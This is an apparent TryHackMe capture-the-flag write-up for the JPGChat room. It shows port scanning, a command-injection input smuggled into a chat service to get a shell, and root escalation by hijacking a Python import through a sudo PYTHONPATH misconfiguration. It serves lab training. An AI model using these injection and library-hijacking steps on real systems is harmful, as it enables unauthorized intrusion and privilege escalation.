 # _TRYHACKME (JPGChat)_

IP
```
10.10.xx.xxx
```

ENUMERATION: <br />
- RUSTSCAN <br>
  rustscan -r 1-65535 -a IP -u 5000 -- -A <br />


Interesting port from rustscan: <br>
- 22, 3000

> ## user.txt

Let's netcat to the port

```
nc IP 3000
```
Enumerating in GitHub for JPGChat we get source code to the service running at 3000

<br>

![Image](image.png)
<br >

```
random;/bin/bash/;
cat /home/wes/user.txt
```

<br>

>## root.txt <br >

<br >

sudo -l 

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

We can run test_module.py as root, So let's check the code in the script

```
from compare import *
print(compare.Str('hello', 'hello', 'hello'))
```

<br >

The scripts imports a library(compare), we need to create a compare.py(/home/wes/compare.py) file to hijack the library to get root privilege:

```
import os
os.system("/bin/bash")
```

Then run the python script as root

```
sudo PYTHONPATH=/home/wes /usr/bin/python3 /opt/development/test_module.py
```